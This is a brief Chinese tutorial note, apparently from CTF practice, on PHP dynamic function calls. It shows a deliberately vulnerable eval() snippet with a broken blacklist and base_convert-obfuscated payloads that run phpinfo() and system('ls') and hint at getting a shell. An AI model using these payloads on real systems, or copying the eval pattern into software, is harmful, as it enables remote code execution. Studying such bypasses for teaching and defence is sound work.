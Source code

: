 # php动态函数调用漏洞

## 如何动态调用？
> eg. `$a="phpinfo";$a();`

必须以字符串的方式赋值


我们可以看一个简单的题目

```php
<?php
    $c=$_GET['c'];
    $black_list=['phpinfo'];
    if (preg_match('/'.$black_list.'/',$c)){
        die("hhh");
    }
    eval('echo '.$c.';');
?>
```
>来看几种payload
>> payload0 = `$pi=base_convert(55490343972,10,36);$pi()`
作用的获取phpinfo()，巧在36进制。
>>
>> paylaod1 = `$pi=base_convert(1751504350,10,36);$abs=base_convert(784,10,36);$pi($abs)`
作用是执行`system('ls')`接下来就轮到发挥想象了

还有`hex2bin dechex`等等好用的函数，以及当`$pi="_GET"`时可以通过`$pi[...]`的方式获取==shell==
